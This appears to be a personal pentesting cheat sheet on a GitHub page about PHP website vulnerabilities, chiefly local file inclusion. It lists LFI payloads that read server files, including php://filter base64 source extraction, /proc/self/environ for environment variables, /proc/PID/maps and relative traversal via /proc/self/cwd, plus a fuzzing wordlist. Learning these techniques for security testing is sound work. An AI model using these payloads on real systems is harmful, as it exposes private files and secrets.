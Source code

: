 
# php_flavor_site

## tips and notes on php websites

> for testing proof of concept; debugging logic; understanding some script or shell code
```
php -a 			; enter php interactive mode, test the effects of syntax etc, etc
```


> index.php
```
if it exists, the webiste is running php
```


## common php website vulnerabilities

### local file inclusion - LFI

> defintion
```
when a website pulls a picture saved on the machine to display it
when a website pulls another file and displays it
the website is misconfigured and is allowed to serve any file on the server
```

#### LFI specific techniques

[hacktricks  |  everything LFI](https://book.hacktricks.xyz/pentesting-web/file-inclusion)

```
/proc/self/cwd/KNOWN_FILE	; for dealing with unknown path, but known dir contents
```


##### filters

Filters can be used to bypass limitations, such as a website executing the PHP code we are attempting to extract.

```php
php://filter/convert.base64-encode/resource=PATH_TO_FILE 	
```

The potential here is really spectacular, compressions filters such as `zlib.deflate` are particularly interesting.


##### fuzzing for filesystem readables

Once an LFI is identified, we can discover file system content via fuzzing. Here is a notable wordlist, deliver with your preferred tool:

```cmd
/usr/share/wordlists/seclists/Fuzzing/LFI/LFI-gracefulsecurity-linux.txt
```


##### leverage /proc file system

The `/proc` file system, specifically the `/proc/self/` directory allows for a lot of creative results, here is a brief list of my favorites I have encountered so far.

```txt
/proc/self/cwd/FILE_WE_KNOW_EXISTS
/proc/self/cmdline  # cmdline
/proc/self/environ  # environment vars
/proc/net/tcp       # budget netstat
/proc/sched_debug   # running process and services
/proc/PID/maps      # replace process id, access virt address for binary exploit
```

If these fail, consider adding the header `'Range: bytes=200-1000'`. I have frequently been advised that this solves some `/proc` LFI failures, specifically `/proc/self/environ`, but I have yet to experience this behavior myself. 

A note on `/proc/self/cwd`. It can be useful for jumping into `vhost`'d websites if we leverage relative path traversal. 